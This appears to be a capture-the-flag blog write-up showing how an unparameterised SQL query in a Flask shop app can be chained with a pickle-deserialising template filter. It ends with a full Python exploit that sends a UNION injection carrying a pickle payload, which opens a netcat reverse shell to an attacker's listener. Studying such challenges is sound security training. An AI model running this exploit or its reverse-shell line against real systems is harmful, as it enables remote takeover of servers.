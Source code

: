 ```yaml
---
layout: default
title:  "Pickle Wickle"
date:   2022-09-24 11:12:00 -0500
categories: jekyll update
templateEngineOverride: md
permalink: /bloghub/picklewickle/
---
```

## Introduction
In this challenge we will take advantage of Flask template filter which uses pickle library to deserialize a python object, but before, we have to analyze a simple SQL injection so we can pass our payload properly. 

## Finding the Bug 
The application is a simple shop web app that lists only four items.

![image](/assets/images/cop.png)

Looking at the web app routes we find two simple routes: 
```python 
@web.route('/')
def index():
    return render_template('index.html', products=shop.all_products())


@web.route('/view/<product_id>')
def product_details(product_id):
    with open('/tmp/record.log', 'a+') as file:
        file.write(shop.select_by_id(product_id))
    return render_template('item.html', product=shop.select_by_id(product_id))
``` 

The interesting part here is the product/s object which gets rendered to the templates, by the `shop.select_by_id()`, moving forward we can check for this function implementation:

```python 
class shop(object):

    @staticmethod
    def select_by_id(product_id):
        return query_db(f"SELECT data FROM products WHERE id='{product_id}'", one=True)

    @staticmethod
    def all_products():
        return query_db('SELECT * FROM products')    
``` 
the function select_by_id() lacks parametrization and hence is clearly SQLi vulnerable, but till this moment we still don't have interesting target to make use of this SQLi. 

## Never eat pickles!
Having a look at *app.py* we can see a Flask template filter defined that uses *pickle* library to load a base64 encoded object and deserialize it through *loads()*, then returns  back the object, as shown below: 
```python
@app.template_filter('pickle')
def pickle_loads(s):
	return pickle.loads(base64.b64decode(s))
```
Flask filters are called with the **|** notation inside templates, let's see *item.html*

```html
<div class="row gx-4 gx-lg-5 align-items-center">
                    {% set item = product | pickle %}
```

the product object returned from the SQL query is returned to the pickle filter decorator, which calls the *pickle_loads()* passing the returned value. 

## Eat the pickle, but ... cut the onion first.
pickling in python is a famous insecure way to handle python objects because of the code execution that may occur in the deserialization process, in our case we can pass the base64 encoded malicious pickle object in  the URL parameter of */view/<product_id>*, but we have to find a way to insure the payload is returned from the SQL query first! 

### Not onions, I mean UNION 
Yes, as you know, after injecting our payload after the where clause, we can simply add an UNION statement with our custom payload, making the structure of the SQL statement as follows: 
```SQL 
SELECT data FROM products WHERE id='20' UNION SELECT '<pickle payload>' -- -'
``` 
This will eventually return the pickled payload we send.

## The exploit 
I wrote a simple exploit script that dumps a malicious pickle object which returns a command execution upon deserialization, sets up the SQLi payload along with the Base64 object, and sends it through a GET request, all you have to do is set your listener, and expose your victim,
Happy Hacking. 

```python 
import pickle, os, base64
import sys
import requests
from urllib.parse import quote 

class P(object):
    
    def __init__(self, host, port): 
        self.host = host 
        self.port = port
    
    def __reduce__(self): 
        return (os.system,("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc {} {} >/tmp/f".format(self.host, self.port),))

if __name__ == "__main__": 
    
    try: 
        victim_url = sys.argv[1] 
        host = sys.argv[2] 
        port = sys.argv[3] 
        print("###### SENDING SHELL PAYLOAD ######")
        print('Make sure to setup your listener')
        if (not victim_url.startswith('http://') and not victim_url.startswith('https://')): 
            victim_url = 'http://' + victim_url   
        payload = victim_url + '/view/' + quote("1' UNION SELECT '{}' -- -".format(str(base64.b64encode(pickle.dumps(P(host, port))).decode())))
        response = requests.get(payload)     
    
    except: 
        print("Usage: python3 cop_exploit.py <victim> <listener host> <port>\n") 
        print("Example: python3 cop_exploit.py http://64.227.43.113:32298 6.tcp.ngrok.io 16451")
```
